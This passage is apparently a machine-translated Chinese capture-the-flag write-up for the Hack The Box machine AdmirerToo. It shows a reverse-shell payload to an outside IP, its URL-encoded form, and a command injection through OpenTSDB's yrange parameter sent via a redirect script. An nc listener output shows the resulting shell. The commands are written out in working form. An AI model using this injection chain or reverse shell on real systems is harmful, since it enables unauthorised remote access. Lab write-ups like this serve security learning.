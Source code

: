 回到浏览器，用打嗝等方式拦截。转发后，我们在浏览器中看到以下响应:

![](img/4401fbd88547f5791d21c1b9bd369e24.png)

反射的响应显示可用的度量

所以现在我们知道唯一可用的度量是 http.stats.web.hits。我花了很长时间试图使用这个度量在浏览器中显示 passwd 文件或任何其他文件。我没有得到一个错误，所以我确信我得到了正确的参数。最后我用了第一次成功的反向外壳！

# 反向外壳

我用这个简单的反向外壳:

```
'/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.95/1337 0>&1"'
```

我对它进行了 URL 编码，所以它看起来像这样:

```
%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%31%33%33%37%20%30%3e%26%31%22%27
```

然后，我启动了重定向器，将它作为要执行的系统命令:

```
┌──(root💀kali)-[~/htb/admirertoo]
└─# python2 redirect.py --port 80 'http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system(%27%2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%22%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%36%2e%39%35%2f%34%34%34%34%20%30%3e%26%31%22%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json'
serving at port 80
```

回到浏览器，用打嗝等方式拦截。根据请求以打嗝的方式转发，然后返回到终端以查看我们是否已连接:

```
┌──(root💀kali)-[~]
└─# nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.16.95] from (UNKNOWN) [10.10.11.137] 58776
opentsdb@admirertoo:/$
```
